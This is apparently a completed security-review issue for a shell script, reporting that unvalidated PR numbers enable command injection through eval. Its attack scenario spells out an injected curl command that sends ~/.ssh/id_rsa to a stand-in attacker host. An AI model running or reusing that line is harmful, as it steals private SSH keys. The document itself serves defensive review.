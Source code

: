 ```yaml
---
status: completed
priority: p0
issue_id: "002"
tags: [code-review, security, pr-101, input-validation]
dependencies: []
completed_date: 2025-10-16
---
```


# Missing Input Validation on PR Number

## Problem Statement

The `workflow-merge.sh` script accepts PR numbers from user input without any validation, allowing injection of shell metacharacters and malicious commands. This creates a critical security vulnerability when combined with the eval-based command execution pattern.

**CVSS Score:** 8.6 (High)
**CWE:** CWE-20 (Improper Input Validation)

## Findings

- Discovered during comprehensive security review by security-sentinel agent
- Location: `scripts/workflow-merge.sh:66, 190-240`
- No validation on user-supplied PR numbers
- Allows arbitrary input including shell metacharacters
- Combined with eval usage (Issue #001), enables command injection
- PR numbers flow directly into shell commands via GitHub CLI

### Vulnerable Code
```bash
# In parse_arguments() function
*)
    PR_NUMBER="$1"  # ← NO VALIDATION - accepts ANY string
    shift
    ;;

# Later used in commands without sanitization
pr_data=$(gh pr view "$PR_NUMBER" --json number,title,author,state)
pr_from_issue=$(gh pr list --search "$issue_number in:title" ...)
```

### Attack Scenarios

**Scenario 1: Command Injection via PR Number**
```bash
./workflow-merge.sh "123; curl https://attacker.com/exfil?data=$(cat ~/.ssh/id_rsa)"
# Becomes: gh pr view "123; curl https://..."
# Executes attacker's command
```
